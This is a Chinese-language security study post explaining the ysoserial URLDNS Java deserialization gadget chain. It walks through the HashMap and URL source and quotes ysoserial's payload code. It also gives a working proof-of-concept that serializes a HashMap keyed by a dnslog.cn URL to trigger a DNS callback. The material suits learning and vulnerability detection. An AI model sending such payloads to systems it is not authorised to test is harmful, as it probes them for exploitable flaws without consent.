 # 前言
> `URLDNS`是`ysoserial`中的一条利用链，通常用于检测是否存在`Java`反序列化漏洞，该利用链具有如下特点

```php
[1] URLDNS 利用链只能发起 DNS 请求，并不能进行其它利用
[2] 不限制 jdk 版本，使用 Java 内置类，对第三方依赖没有要求
[3] 目标无回显，可以通过 DNS 请求来验证是否存在反序列化漏洞
```

# 原理
> `java.util.HashMap`实现了`Serializable`接口，重写了`readObject`, 在反序列化时会调用`hash`函数计算`key`的`hashCode`，而`java.net.URL`的`hashCode`在计算时会调用`getHostAddress`来解析域名, 从而发出`DNS`请求

# 分析过程
> 这里跟着`ysoserial`项目中`URLDNS`的`Gadget`来分析

```java
Gadget Chain:
    HashMap.readObject()
    HashMap.putVal()
    HashMap.hash()
    URL.hashCode()
```
> 先跟进`HashMap`，看看其自己实现的`readObject()`函数，这里通过`for`循环来将`HashMap`中存储的`key`通过`K key = (K) s.readObject();`来进行反序列化，在这之后调用`putVal()`和`hash()`函数

<img src="./Java安全学习- URLDNS链/1.png" alt="">

> 先跟进`hash()`函数看看是如何实现的，当`key!=null`时会调用`hashCode()`函数

<img src="./Java安全学习- URLDNS链/2.png" alt="">

> 跟进`hashCode()`函数，由于在`ysoserial`中的`URLDNS`是利用`URL`对象，于是跟进`Java`基本类`URL`中关于`hashCode()`的部分`java/net/URL.java`，由于`hashCode`的值默认为`-1`，因此会执行`hashCode = handler.hashCode(this);`

<img src="./Java安全学习- URLDNS链/3.png" alt="">

> 看看`handler.hashCode()`函数是如何实现的，这里利用一个`Demo`代码来调试看看

```java
import java.net.URL;

public class URLDemo {
    public static void main(String[] args) throws Exception {
        URL url = new URL("http://6ppzw1.dnslog.cn");
        url.hashCode();
    }
}
```
> 先看看请求之后的结果，成功触发了`DNS`请求，来看看是如何实现的

<img src="./Java安全学习- URLDNS链/4.png" alt="">

> 调试跟进`java/net/URLStreamHandler.java`中的`hashCode()`函数，可以看到这里调用了一个函数`getHostAddress()`来进行`DNS`解析返回对应的`IP`

<img src="./Java安全学习- URLDNS链/5.png" alt="">

> 在`ysoserial`中是通过`put()`函数来触发的，其实这一步的实现和前面的是一样的，都是通过`hash()`函数来实现的

<img src="./Java安全学习- URLDNS链/6.png" alt="">

> 但是上面的分析过程仿佛和反序列化并没有什么关联，其实当`HashMap`传入一个`URL`对象时，会进行一次`DNS`解析，并且`HashMap`实现了`Serializable`接口，重写了`readObject`，也就是说当一个`Java`应用存在反序列化漏洞时，可以通过传入一个序列化后的`HashMap`数据(将`URL`对象作为`key`放入`HashMap`中)，当传入的数据到达该`Java`应用的反序列化漏洞点时，这时程序就会调用`HashMap`重写的`readObject()`函数来反序列化读取数据，进而触发`key.hashCode()`函数进行一次`DNS`解析

# ysoserial 项目代码分析
> 在`ysoserial`项目中`URLDNS`的代码并没有这么简单，还有一些其他的代码段，来看看这些"多余的"代码的用处是啥

```java
public class URLDNS implements ObjectPayload<Object> {
        public Object getObject(final String url) throws Exception {
                URLStreamHandler handler = new SilentURLStreamHandler();
                HashMap ht = new HashMap();
                URL u = new URL(null, url, handler);
                ht.put(u, url); 
                Reflections.setFieldValue(u, "hashCode", -1);
                return ht;
        }
        public static void main(final String[] args) throws Exception {
                PayloadRunner.run(URLDNS.class, args);
        }
        static class SilentURLStreamHandler extends URLStreamHandler {

                protected URLConnection openConnection(URL u) throws IOException {
                        return null;
                }
                protected synchronized InetAddress getHostAddress(URL u) {
                        return null;
                }
        }
}
```
> 这里通过继承`URLStreamHandler`类，重写`openConnection()`和`getHostAddress()`函数，而这里重写的目的在于: `HashMap#put`时也会调用`getHostAddress()`函数进行一次`DNS`解析，这里就是通过重写的`getHostAddress()`函数来覆盖掉原函数，从而使其不进行`DNS`解析，避免在`Payload`在创建的时候进行`DNS`解析

> 代码`Reflections.setFieldValue(u, "hashCode", -1);`中的`setFieldValue()`函数是`ysoserial`项目自定义的一个反射类中的函数

```java
public class Reflections {
    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }
}
```
> 上述代码通过反射来设置`URL`类的`hashCode`的值为`-1`，这是因为在`HashMap#put`时已经调用过一次`hashCode()`函数，`hashCode`的值会改变不再为`-1`，这样会导致在下一步经过`HashMap`的`readObject()`函数反序列化时直接返回`hashCode`的值，不再调用`handler.hashCode(this)`，因此利用反射来将`hashCode`的值设为`-1`

> 最后利用`PayloadRunner.run()`来进行反序列化

##  POC链

```java
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.URL;
import java.text.SimpleDateFormat;
import java.util.Date;
import java.util.HashMap;

public class URLDemo {

    public static void main(String[] args) throws Exception {
        Date nowTime = new Date();
        HashMap hashmap = new HashMap();
        URL url = new URL("http://lttx9f.dnslog.cn");
        SimpleDateFormat simpleDateFormat = new SimpleDateFormat("yyyy-MM-dd hh:mm:ss");
        Field filed = Class.forName("java.net.URL").getDeclaredField("hashCode");
        filed.setAccessible(true);  // 绕过Java语言权限控制检查的权限
        filed.set(url, 209);
        hashmap.put(url, 209);
        System.out.println("当前时间为: " + simpleDateFormat.format(nowTime));
        filed.set(url, -1);

        try {
            FileOutputStream fileOutputStream = new FileOutputStream("./dnsser");
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(fileOutputStream);
            objectOutputStream.writeObject(hashmap);
            objectOutputStream.close();
            fileOutputStream.close();

            FileInputStream fileInputStream = new FileInputStream("./dnsser");
            ObjectInputStream objectInputStream = new ObjectInputStream(fileInputStream);
            objectInputStream.readObject();
            objectInputStream.close();
            fileInputStream.close();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

> 从请求结果中可以看出，在`Payload`生成阶段并没有发起`DNS`解析，而是在后续反序列化过程中进行的请求

<img src="./Java安全学习- URLDNS链/7.png" alt="">